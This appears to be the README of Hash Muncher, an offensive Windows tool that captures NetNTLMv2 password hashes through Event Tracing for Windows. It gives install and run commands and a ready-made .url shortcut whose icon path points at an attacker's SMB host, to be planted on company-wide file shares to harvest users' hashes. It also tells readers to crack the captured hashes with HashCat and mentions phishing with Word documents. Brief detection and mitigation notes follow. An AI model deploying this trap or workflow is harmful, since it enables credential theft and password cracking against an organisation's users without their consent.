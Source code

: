 # Hash Muncher

*Grab NetNTLMv2 hashes using ETW with administrative rights on Windows*

[![GitHub all releases](https://img.shields.io/github/downloads/lkarlslund/hashmuncher/total)](https://github.com/lkarlslund/hashmuncher/releases) ![GitHub Workflow Status](https://img.shields.io/github/actions/workflow/status/lkarlslund/hashmuncher/prerelease.yml?branch=main)

- Requires elevated (administrator) access on Windows 8.1 / Windows 2016 or later
- Uses Event Tracing for Windows (ETW) to get access to raw packet data for SMB authentication packets
- Decodes NTLM message types 2 and 3
- Outputs to stdout or to a file
- Press Ctrl-C to stop processing or use timeout option
- Crack hashes with HashCat using -m 5600

## Getting Hash Muncher

Three different options for getting this up and running

### A) Download auto built binaries from [releases](https://github.com/lkarlslund/hashmuncher/releases)

### B) Build and install on Windows with this Go command
- requires Golang

```bash
go install github.com/lkarlslund/hashmuncher@latest
```

### C) Cross compile the Windows binaries on any Golang supported platforms with PowerShell installed
- requires Golang and PowerShell
  
```powershell
git clone https://github.com/lkarlslund/hashmuncher
cd hashmuncher
./build.ps1
```

## Usage

1) Ensure that Windows Firewall allows "File and Printer Sharing" as Hash Muncher requires the built in SMB service to send recieve the initial request and send response packets to the target.

<img src="images\2023-05-09-12-02-27.png" width="40%">

2) In an elevated prompt run Hash Muncher

```bash
hashmuncher.exe [-output filename.txt] [-timeout nnn] [-tracename yourname] [-help]
```

3) Now wait for someone to authenticate against your machine, or plant an URL shortcut on a popular shared fileshare like below.


````
[InternetShortcut]
URL=Munch
WorkingDirectory=MunchMunch
IconFile=\\10.1.2.3\%USERNAME%.icon
IconIndex=1
````

Replace the IP address with your Hach Muncher machine, and save the file to a (company wide) fileshare as 'whatever.url', and watch the hashes come pouring in.

There are other methods mentioned at [Red Team Notes - Forced Authentication](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication), and you can probably also get success by mailing everyone a Word document, but it's not stealthy at all.

## Detection

- None that I've seen, but please leave feedback

## Mitigation

- None for the ETW part, this is part of the Windows design says Microsoft
- Use STRONG passwords! Cracking NetNTLMv2 is not fast at all, but with weak passwords it can surely be done.
- Disable NTLM entirely! It probably won't be painless - but see [Farewell NTLM - It is time to disable NTLM](https://www.scip.ch/en/?labs.20210909)

## History

I've been playing with ETW on and off, but once I saw the very cool [research from Nettitude Labs](https://labs.nettitude.com/blog/etwhash-he-who-listens-shall-receive/) I knew I had to make this into an easy to use tool in my favourite language Golang! Nettitude Labs has a working [POC](https://github.com/nettitude/ETWHash) written in C# running under the .Net framework, and might be a better option for you. So I'm not really inventing anything here, just adding this as an alternative.

If you like Windows security stuff you might also like my attack graph tool [Adalanche](https://github.com/lkarlslund/Adalanche)
